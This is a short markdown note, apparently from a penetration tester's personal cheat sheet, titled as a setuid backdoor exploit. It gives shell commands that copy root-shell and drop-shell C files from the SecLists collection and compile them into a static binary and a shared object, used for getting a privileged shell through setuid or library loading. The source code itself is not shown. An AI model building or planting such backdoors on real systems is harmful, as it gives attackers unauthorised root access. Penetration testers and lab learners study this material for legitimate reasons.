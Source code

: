 # C setuid suid backdoor exploit

## program to execute shell commands with system
```bash
cp /usr/share/seclists/Miscellaneous/source-code/c-linux/root-shell.c .
gcc -static -o root-shell root-shell.c
```

## write binary with shared module object SO
/usr/share/seclists/Miscellaneous/source-code/c-linux/drop-shell.c
```bash
cp /usr/share/seclists/Miscellaneous/source-code/c-linux/drop-shell.c .
gcc -fPIC -shared -o drop-shell.so drop-shell.c
```
